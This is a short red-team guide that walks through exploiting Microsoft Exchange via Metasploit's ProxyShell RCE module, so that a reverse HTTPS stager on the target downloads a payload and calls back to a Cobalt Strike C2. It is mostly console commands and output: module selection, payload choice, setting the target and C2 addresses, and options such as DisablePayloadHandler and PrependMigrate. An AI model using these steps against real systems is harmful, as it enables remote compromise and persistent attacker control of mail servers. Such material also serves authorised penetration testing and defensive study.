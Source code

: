 ```yaml
---
author(s):
  - Sebastian Dante Alexander
tags:
  - initial-access
  - exploitation
  - cobalt-strike
  - windows
credits:
  - rsmudge
---
```

# Cobalt Strike

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

This guide is fairly easy to exploit a vulnerable service to establish connection to cobalt strike. This should work with most exploits without needing to reinvent the wheel. We'll be using proxyshell as an example.

```
msf6 > search -u exchange_proxyshell_rce  
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
  
Matching Modules
================

  #  Name                                          Disclosure Date  Rank       Check  Description
  -  ----                                          ---------------  ----       -----  -----------
  0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/exchange_proxyshell_rce
[*] Using exploit/windows/http/exchange_proxyshell_rce
```

Depending on the listener (or shell handler) type. Set the payload to `windows/x64/meterpreter/reverse_https` for an HTTPS beacon network traffic. If you're using HTTP beacon network traffic without TLS (encrypted packets) then set the payload to `windows/x64/meterpreter/reverse_http`. You're not really delivering `meterpreter` session.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_proxyshell_rce) > options

Module options (exploit/windows/http/exchange_proxyshell_rce): 

  Name              Current Setting  Required  Description
  ----              ---------------  --------  -----------
  EMAIL                              no        A known email address for this organization
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             443              yes       The target port (TCP)
  SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT           8080             yes       The local port to listen on.
  SSL               true             no        Negotiate SSL/TLS for outgoing connections
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                            no        The URI to use for this exploit (default is random)
  UseAlternatePath  false            yes       Use the IIS root dir as alternate path
  VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
  LHOST                      yes       The local listener hostname
  LPORT     8080             yes       The local listener port
  LURI                       no        The HTTP Path


Exploit target:

  Id  Name
  --  ----
  0   Windows Powershell
```

Set the target's IP address.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set rhosts <target_IP>
rhosts => <target_IP>
```

Specify the C2's IP address and port. This will receive from a #metasploit-framework stager. You’re telling it in this case to generate an HTTPS stager to download a payload.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lhost <cobalt_strike_C2_IP>
lhost => <C2_IP>
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lport 443
lport => 443
```

Set `DisablePayloadHandler` and `PrependMigrate` to the boolean values accordingly in this setup.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PrependMigrate true
PrependMigrate => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set AllowNoCleanup true
AllowNoCleanup => true
```

Exploit the target and you should receive a beacon callback on your C2.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > run
```

---
## References

* [Metasploit to Beacon Initial Foothold](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/init-access_client-side-exploits.htm#_Toc65482765)
